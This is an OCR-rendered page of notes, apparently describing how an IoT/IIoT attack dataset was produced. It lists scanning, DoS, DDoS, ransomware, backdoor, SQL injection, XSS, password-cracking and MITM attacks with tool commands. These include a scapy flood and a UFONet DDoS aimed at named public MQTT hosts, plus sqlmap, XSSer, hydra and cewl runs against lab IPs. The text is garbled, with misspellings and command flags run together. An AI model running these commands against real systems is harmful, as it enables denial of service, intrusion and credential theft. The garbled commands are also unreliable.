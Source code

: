 ### 1. Scanning attack
- Collect infos abou victim systems uch as finding active IP addresses and open ports
### 2. DoS attack
- Fake flodding that attempts to corrupt resources of #Iot-IIot services  and network sys
- Python script using *scapy* package `send(IP(src=srcip, dst="broker.hivemq.com", ttl=rnd2)/ TCP(sport=port,dport=port, ack=rnd, window=rnd), count=100)`
### 3. DDoS attack
- Launches multiple DDoS attacks to corrupt targeted sys, turning rach one into a bot or zombie
- The attacker then had remote control over the group of bots named a botnet
- Bash script `python2 ./ufonet-a "http://www.mqtt-dashboard.com"-r "100"- loic "1000"--loris "1000"--ufosyn "1000"--spray "1000"--smurf "1000"--xmas "1000"--nuke "1000"--tachyon "1000"--threads "100"`
### 4. Ransomware attack
- Prevents normal users to access sys or services by encrypting them until they pay a ransom
- Executed by Metasploit framework named *eternalblue*
### 5. Backdoor attack
- Gain high-lecel user access and keep persistence to the hacked sys
- Executed bby metasploit framework *bash script* of command `run persistence -h`
### 6. Injection attack
- Injects or inserts any fake data from clients to applications
- Using *bash script* `sqlmap-u http://192.168.1.195/dvwa/ vulnerabilities/sqli/?id=53`
### 7. Cross-site scripting (XSS)
- Employs a web app to transmit malicious code
- Using the *XSSer* `python2 xsser-u "https://192.168.1.184/index.jsp"--auto--Cem "Hex,Str,Hex"--user-agent "hacking"--timeout "20"--threads "5"`
### 8. Password cracking attack
- Brute-force and dictionary attacks
- Using *hydra* and *cewl* `hydra-l root-P /usr/share/wordlists/metasploit/unix_passwords.txt-t 5 ftp://192.168.1.152, and cewl http://192.168.1.195/dvwa--auth_type Digest--auth_user admin--auth_pass password-v`
### 9. MITM attack
- Snoop as one of the parties
- Using *Ettercapp* to execute ARP spoofing, ICMP redirection, port straling and DHCP spoofing
